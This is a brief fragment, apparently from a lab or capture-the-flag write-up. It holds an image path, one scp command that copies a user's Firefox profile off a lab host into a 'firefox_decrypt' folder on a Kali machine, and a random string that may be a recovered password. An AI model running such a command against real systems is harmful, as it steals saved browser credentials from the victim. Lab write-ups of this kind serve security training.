scp -o StrictHostKeyChecking=no -r elliot@192.168.56.124:/home/elliot/.mozilla/firefox/esmhp32w.default-default /home/kali/firefox_decrypt/



S8Y389KJqWpJuSwFqFZHwfZ3GnegUa
